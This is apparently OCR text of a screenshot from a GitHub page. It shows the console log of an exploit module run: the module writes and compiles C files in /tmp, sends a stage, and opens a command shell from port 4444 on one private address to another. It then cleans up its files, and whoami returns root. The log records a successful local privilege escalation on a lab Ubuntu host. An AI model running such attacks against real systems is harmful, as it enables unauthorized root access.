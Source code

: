     [*] Writing 5207 bytes in 1 chunks of 18901 bytes (octal-encoded), using printf
    [*] Compiling /tmp/1B5WCsJQ.c
    [*] Writing to /tmp/Pa81QnTN.c (1765 bytes)
    [*] Max line length is 65537
    [*] Writing 1765 bytes in 1 chunks of 6426 bytes (octal-encoded), using printf
    [*] Compiling /tmp/Pa81QnTN.c
    [*] Writing to /tmp/KVnqVAyd (206 bytes)
    [*] Max line length is 65537
    [*] Writing 206 bytes in 1 chunks of 567 bytes (octal-encoded), using printf
    [*] Exploiting... This may take around 2min to complete.
    [*] Sending stage (38 bytes) to 192.168.2.156
    [*] Command shell session 2 opened (192.168.2.117:4444 -> 192.168.2.156:53222) at 2016-10-25 15:28:54 -0400
    [+] Deleted /tmp/1B5WCsJQ
    [+] Deleted /tmp/Pa81QnTN
    
    1680492764
    NGduyBPwgXWfGmBHtxBSKiETBaBLICLh
    true
    TaLLNBiFYHlmeltDGgkZgFUJjGxAYQCu
    BdMyykyLXtXiKWwYePyHuHgSuBQpSbpL
    XONlhqecfPbQdTLjQpgziWeUywRJApti
    true
    ROcMyQjRijjHyBVmHETMlSGyTkEgNJkO
    yMMjlJCFFAdVtPzpyETPnRRbIMqEnejB
    vezcxxghgakBxrcOnomswEcCXTCmBseb
    whoami
    root
    uname -a
    Linux Ubuntu14 4.2.0-27-generic #32~14.04.1-Ubuntu SMP Fri Jan 22 15:32:26 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
